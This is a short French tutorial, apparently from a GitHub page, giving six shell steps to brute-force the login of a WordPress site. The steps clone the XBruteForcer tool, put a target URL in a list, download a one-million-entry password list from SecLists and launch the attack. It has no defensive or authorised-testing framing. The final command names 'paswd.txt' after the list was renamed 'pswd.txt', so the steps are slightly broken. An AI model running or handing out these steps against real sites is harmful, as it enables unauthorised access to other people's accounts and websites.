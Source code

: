## 1. Clonage du dépôt github de XBruteForcer

```bash
git clone https://github.com/Moham3dRiahi/XBruteForcer.git
```

## 2. Se rendre dans le dossier cloné

```bash
cd XBruteForcer
```

## 3. Ajouter l'url du site Wordpress à brute forcer

```bash
echo "[WEBSITE_URL]" > list.txt
```

## 4. Cloner un ficher contenant 10 millions de mots de passe

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

## 5. Renommer le fichier cloné

```bash
mv 10-million-password-list-top-1000000.txt pswd.txt
```

## 6. Lancer l'attaque

```bash
perl XBruteForcer.pl -l list.txt -p paswd.txt
```
